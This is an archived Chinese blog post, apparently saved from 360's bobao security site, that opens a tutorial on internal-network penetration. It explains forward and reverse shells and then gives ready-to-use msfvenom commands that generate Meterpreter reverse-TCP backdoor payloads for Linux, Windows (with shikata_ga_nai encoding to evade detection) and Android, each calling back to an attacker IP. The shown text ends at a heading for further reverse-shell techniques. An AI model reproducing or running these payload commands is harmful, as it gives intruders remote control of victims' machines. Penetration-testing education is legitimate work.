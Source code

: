 ```yaml
---
layout: post
title: 【技术分享】内网渗透思路整理与工具使用
categories:
- Pocket
tags:
---
```

原文地址：http://m.bobao.360.cn/learning/detail/3683.html

收藏时间：2017-04-03 14:25:23

<div  lang="en">
<div id="RIL_IMG_1" class="RIL_IMG"><img src="/media/posts_images/2017-04-03-1681852376/1"/></div>
<p nodeIndex="55"><span nodeIndex="275">作者：</span><a href="http://bobao.360.cn/member/contribute?uid=2782234750" target="_self" textvalue="Homaebic" nodeIndex="276"><span nodeIndex="277">Homaebic</span></a></p>
<p nodeIndex="56"><span nodeIndex="278">预估稿费：300RMB</span></p>
<p nodeIndex="57"><span nodeIndex="279">投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿</span></p>


<hr nodeIndex="288"><p nodeIndex="60"><span nodeIndex="289">上个学期一直在学审计，前几天ST2漏洞大火，随便打一个就是root权限，我却拿着root权限不知如何继续进行。因为这个，发现了自己对渗透知识的缺失，因此用了两周左右的时间学习补充了一下内网渗透的知识，看了不少大牛的文章，膜拜之余还是做了一些笔记的。到渗透入门结束之余，打算自己整理一下最近学习到的关于渗透的知识，写一篇文章。</span></p>
<p nodeIndex="61"><span nodeIndex="290">回过头看渗透，在机械流程的前提下，什么情况下使用什么工具，做出什么反应的适应性思路更为重要。一次大快人心的渗透过程与扎实的基础知识和熟练的工具使用是分不开的。</span></p>

<p nodeIndex="63"><span nodeIndex="293"><strong nodeIndex="294"><span nodeIndex="295">渗透初探</span></strong></span></p>
<hr nodeIndex="296"><p nodeIndex="64"><span nodeIndex="297"><strong nodeIndex="298"><span nodeIndex="299">一个概念</span></strong></span></p>
<p nodeIndex="65"><strong nodeIndex="300"><span nodeIndex="301">正向shell：</span></strong><span nodeIndex="302">攻击者连接被攻击者机器，可用于攻击者处于内网，被攻击者处于公网的情况。</span></p>
<p nodeIndex="66"><span nodeIndex="303">攻击者-->被攻击者</span></p>
<p nodeIndex="67"><strong nodeIndex="304"><span nodeIndex="305">反向shell：</span></strong><span nodeIndex="306">被攻击者主动连接攻击者，可用于攻击者处于外网，被攻击者处于内网的情况。</span></p>
<p nodeIndex="68"><span nodeIndex="307">攻击者<--被攻击者</span></p>
<p nodeIndex="69"><span nodeIndex="308"><strong nodeIndex="309"><span nodeIndex="310">msf shell</span></strong></span></p>
<p nodeIndex="70"><span nodeIndex="311">反向shell</span></p>
<p nodeIndex="71"><span nodeIndex="312">正向shell</span></p>
<pre class="brush:plain;toolbar:false" nodeIndex="72">
Linux:msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=192.168.1.102 lport=4444 -f elf -o isshell
</pre>
<div id="RIL_IMG_2" class="RIL_IMG"><img src="/media/posts_images/2017-04-03-1681852376/2"/></div>
<pre class="brush:plain;toolbar:false" nodeIndex="74">
Windows:msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 -b ‘\x00’ LHOST=121.196.209.139 LPORT=4444 -f exe > abc.exe
</pre>
<div id="RIL_IMG_3" class="RIL_IMG"><img src="/media/posts_images/2017-04-03-1681852376/3"/></div>
<pre class="brush:plain;toolbar:false" nodeIndex="76">
Android:msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.7 LPORT=5555 R > /root/apk.apk
</pre>
<div id="RIL_IMG_4" class="RIL_IMG"><img src="/media/posts_images/2017-04-03-1681852376/4"/></div>
<p nodeIndex="78"><span nodeIndex="316">其他的各种各样的姿势的反弹shell：</span></p>
